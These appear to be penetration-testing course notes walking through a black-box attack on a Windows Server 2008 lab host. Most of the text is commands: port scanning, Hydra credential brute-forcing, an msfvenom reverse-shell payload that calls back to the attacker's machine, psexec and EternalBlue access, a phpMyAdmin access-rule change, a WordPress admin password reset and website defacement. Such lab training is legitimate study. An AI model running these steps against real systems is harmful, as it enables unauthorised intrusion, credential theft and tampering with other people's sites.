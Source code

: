 # 7 - Windows Blackbox Exploitation

## <mark style="color:red;">Windows Black Box Penetration Test</mark>

### **Black Box Pentest**

* A Black box penetration test is a security assessment whereby the penetration tester is not provided with any information regarding the target system or network (No IP ranges, system information or default credentials are provided).
* The objective of a Black box penetration test is to accurately test the security of a system or network as an external unprivileged adversary.
* This approach is very useful as it demonstrates how an external attacker with no inside knowledge would compromise a company's systems or networks.

### **Penetration Testing Phases**

* The following diagram outlines the various phases involved in a typical penetration test.

### **Black Box Methodology:**

* Host discovery
* Port scanning & enumeration
* Vulnerability detection/scanning
* Exploitation
* Manual
* Automated
* Post Exploitation
* Privilege Escalation
* Persistence
* Dumping Hashes

### **Scenario & Scope**

* You have just begun your first job as a Junior Penetration Tester and have been assigned to assist in performing a penetration test on a client's network.
* The pentest lead has assigned you to gain access/exploit a host running Windows Server 2008.
* Your primary objectives are:
  * Identify services running on the target.
  * Identify vulnerabilities within the services.
  * Exploit these vulnerabilities to obtain an initial foothold.



## Practical Demonstration

#### <mark style="color:yellow;">Black Box Port Scanning & Enumeration</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# discovering hosts in the network, we can get the target ip 
cat /etc/hosts # ping it to confirm reachability.

# nmap scan 
nmap -sV $ip # scan 1000 commonly used ports.
nmap -T4 -PA -sC -sV -p 1-10000 $ip -oX nmap_10k # -PA-ack scan, -oX-xml format.
nc -nv $ip 21 # to get banner, but no luck.
# we opened the "http://$ip/4848" on the web browser to take a look at the service, $ip/8080, $ip/9200 etc.

# we get a lot of http service ports based on the nmap scan on line 6, so we view each of them.

service postgresql start && msfconsole # create a workspace for the target (Win2k8).
db_import /path_to_nmapscan # import the scan.
# if you want the OS name to be specified correctly in the "os_name" column in msfconsole db a trick is to use the SMB version module.
search smb_version
use 0
options
set RHOSTS $ip
run
hosts # host name is now specified correctlly.
services # view all imported services.

# we can also do a comprehensive scan
nmap -sV -T4 -PA -sC -p 1-65535 $ip -oV nmap_All # didnt do.
nmap -sU -sV $ip # udp scan.
```
{% endcode %}

#### <mark style="color:yellow;">1 - Targeting Microsoft IIS FTP (port 21)</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# check for anonymous access with nmap "ftp-anon" script or mannually with ftp $ip, enter "anonymous" as UN, which didnt work.

# we can use hydra to perform bruteforce on the ftp server.
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt $ip ftp # we got some creds.

# we can also check if the user "vagrant" exist also
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt $ip ftp # none exist but we can swap the wordlist and make use of the unix_users.txt in the "-P" option to check also. Save the creds.

ftp $ip # login with admin cred. We discover a .asp file, meaning the web server can execute .asp files....so we can generate a malicious .asp payload, upload it to get a reverse shell.

# using msfvenom to generate payload.
msfvenom -p wimdows/shell/reverse_tcp LHOST=$kaliIP LPORT=1234 -f asp > shell.aspx # we dont need a meterpreter shell here, hence we use normal reverse shell.

# login via ftp using the vagrant user.
ftp> put shell.aspx # upload the payload

# setup msfconsole to setup handler.
use multi/handler
set payload .....
set LHOST, LPORT. ..
run

# execute the file via the browser
# in this case we didnt get a reverse shell, even generating a .asp file didnt work also.

# what else can we do?
# attackers can deface the website since the "index.html" file is accessible in the ftp server.
get index.html

# open and edit, the upload it back.
put index.html
```
{% endcode %}

#### <mark style="color:yellow;">3 - Targeting OpenSSH</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we can perform a bruteforce, using "varant" and administrator as the user.
# login with the user "vagrant", we got a shell session.

# we can use the "use auxililary/scanner/ssh/ssh_login" module to obtain a meterpreter session, set USERNAME, PASSWORD to "Vagrant".
# upgrade to a meterpreter session "sessions -u 1" - but it failed.

# we can generate a meterpreter payload, and transfer it to the target via ssh, but that's not necessary in this case.

# in this case we can spawn a cmd shell session after loggin in via ssh using the "bash" cmd. Now we have a cmd prompt shell.

net localgroup administrators # check if the user is part of the local group.
whoami /priv # check user permissions.
```
{% endcode %}

#### <mark style="color:yellow;">4 - Targeting SMB</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -sC -p 445 $ip # indepth SMB scan.
hydra -l administrator -P /usr/share.../unix_users_or_password.txt smb # btrute force on smb. Test the "vagrant" user too.

# we can authenticate via rdp, but for now we are working on SMB.
smbclient -L $ip -U vagrant # list the vagrant shares.
smbmap -y vagrant -p vagrant -H $ip # list shares.
enum4linux -u vagrant -p vagrant -U $ip # enumerate other users on the PC.

# enumeratin shares with metasploit.
use auxiliary/scanner/smb/smb_enumusers_domain
set RHOSTS, SMBUser, SMBPass vagrant, run

# we can also use psexec.py script to authenticate.
locate psexec.py
chmod +x psexec.py
python3 psexec.py Administrator@$ip # login with psexec. We are NT AUTHORITY.

# msfconsole also have a psexec module (exploit/windows/smb/psexec).

# what is we have no creds.
# we can use the EternalBlue exploit to gain access to the user.
```
{% endcode %}

#### 6 - Targeting MySQL DB Server

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -sC -p 3306,8585 $ip # nmap scans.
searchsploit MySQL 5.5 # but we got nothing.
# perform a bruteforce with Metasploit
search mysql_login
use 0
# we found  out no password for the "root" user.
mysql -u root -p -h $ip # login mysql
show databases; # display dbs.

# we cant access the phpmyadmin page, so what we can do is use the previous SMB module, gain a meterpreter session, download the phpmyadmin file, edit and modify the config options.
# we use Metasploit to exploit the EternalBlue vuln and get meterpreter session.
meterpreter > cd C:\ # we see a folder named "Wamp" this stores web application files, check the "apps" or "Www" folder.

# we also could have identified the "MySQL" cred by taking a look at the "C:\Wamp\www\wordpress\wp-config.php" directory, we can see the MySQL creds.

# back to line 10, lets get the "phpmyadmin" file
meterpreter > cd C:\Wamp\alias\ # we locate the file.
meterpreter > download phpmyadmin.conf # download the file to kali, so you can modify it with nano or vim.
# we can delete other rules there, then modify the "Allow from 127.0.0.1" to "All from all".
# upload the modified file, which automatically replaces the default one. confirm it by "cat phpmyadmin.conf".

# for the effect to take place we have to restart the apache service.
shell # spawn a cmd prompt shell.
C:\wamp\alias> net stop wampapache # stops the service.
C:\wamp\alias> net start wampapache # starts the service. Now we are able to access the phpmyadmin page from the browser.

# now we clicl the "wordpress" button, wp_users button, we can modify the "admin" account password. click "Edit", select MD5 in the "user_pass" row and change the password.

# now we can goback to the homepage of the site, and login as "Admin" in Wordpress.
$ip:8585/wordpress/wp-admin # login as admin. This gives us aacces to the entire website.
```
{% endcode %}

####

